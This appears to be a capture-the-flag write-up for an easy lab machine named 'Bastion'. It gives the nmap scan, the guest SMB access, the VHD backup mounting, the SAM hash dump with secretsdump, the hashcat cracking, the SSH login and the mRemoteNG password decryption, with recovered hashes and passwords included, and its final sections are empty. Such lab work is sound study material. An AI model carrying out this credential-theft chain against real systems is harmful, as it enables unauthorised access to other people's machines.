








# Summary


## about target

tip:  10.129.4.213

hostname:  Bastion

Difficulty:  Easy


## about attack

+ Vhd file mount, sam/system secret dump.
+ install software, user\\<username>\Appdata\Roaming\xxx, config file may contain the pwd.


**attack note**

```bash
Basion / 10.129.4.213

PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 3a56ae753c780ec8564dcb1c22bf458a (RSA)
|   256 cc2e56ab1997d5bb03fb82cd63da6801 (ECDSA)
|_  256 935f5daaca9f53e7f282e664a8a3a018 (ED25519)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn?
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  unknown
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  unknown
49670/tcp open  msrpc        Microsoft Windows RPC


gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip  -o gobuster.log

---- smb enum

smbmap -u guest -p ''  -H $tip -R

sudo mount -t cifs //$tip/backups/WindowsImageBackup/L4mpje-PC  /mnt/L4mpje-PC/ -o user=anonymous

guestmount --add /mnt/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd/

sudo guestmount --add /mnt/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd/


secretsdump.py -sam SAM -system SYSTEM local

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

---- exploit
# crack hash
echo '26112010952d963c8dc4217daec986d9' > hash
hashcat -m 1000 -a 0 hash /usr/share/wordlists/rockyou.txt

---- local enum

RegPath: HKLM\Software\Microsoft\Active Setup\Installed Components\{44BBA840-CC51-11CF-AAFA-00AA00B6015C}
Key: StubPath
Folder: C:\Program Files\Windows Mail
File: C:\Program Files\Windows Mail\WinMail.exe OCInstallUserConfigOE (Unquoted and Space detected)

```


# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 3a56ae753c780ec8564dcb1c22bf458a (RSA)
|   256 cc2e56ab1997d5bb03fb82cd63da6801 (ECDSA)
|_  256 935f5daaca9f53e7f282e664a8a3a018 (ED25519)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn?
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  unknown
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  unknown
49670/tcp open  msrpc        Microsoft Windows RPC
```


## http enum

dir scan, nohting found.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip  -o gobuster.log
```


## smb enum

smb nmap script scan, nothing found.


check smb share, found backups file, which contains vhd file.

```bash
smbmap -u guest -p ''  -H $tip -R
```


mount vhd file.

```bash
sudo mount -t cifs //$tip/backups/WindowsImageBackup/L4mpje-PC  /mnt/L4mpje-PC/ -o user=anonymous

# not work, check the other vhd file.
guestmount --add /mnt/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd/

sudo guestmount --add /mnt/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd/

```




copy sam and system, dump creds.

```bash
secretsdump.py -sam SAM -system SYSTEM local

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```





# Exploitation

crack hash and connect via ssh.

```bash
echo '26112010952d963c8dc4217daec986d9' > hash
hashcat -m 1000 -a 0 hash /usr/share/wordlists/rockyou.txt
```

L4mpje:bureaulampje




ssh 

```bash
ssh l4mpje@$tip
```





# Privesc


## local Enum

Wpeas enum, nothing found.

c:\Users\L4mpje\AppData\Roaming\mRemoteNG, found the mRemote config file, contains password.





Decrypt password. https://github.com/haseebT/mRemoteNG-Decrypt

thXLHM96BeKL0ER2

```bash
python mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
```




## System




## proof

```bash


```


